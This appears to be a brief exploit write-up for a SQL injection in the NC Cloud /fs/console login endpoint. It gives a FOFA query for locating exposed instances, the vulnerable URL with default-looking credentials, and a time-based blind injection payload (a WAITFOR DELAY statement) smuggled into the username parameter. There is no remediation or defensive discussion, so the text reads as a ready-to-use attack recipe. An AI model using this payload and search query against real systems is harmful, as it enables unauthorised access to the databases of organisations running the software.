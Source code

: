 <languages />

Affected Versions
-----------------

NC Cloud

FOFA
----

    "NCCloud"

Vulnerability location
----------------------

⚠️️Username can be injected.

    /fs/console?username=admin&password=123456

Payload
-------

    /fs/console?username=admin';WAITFOR DELAY '0:0:5' --&password=123456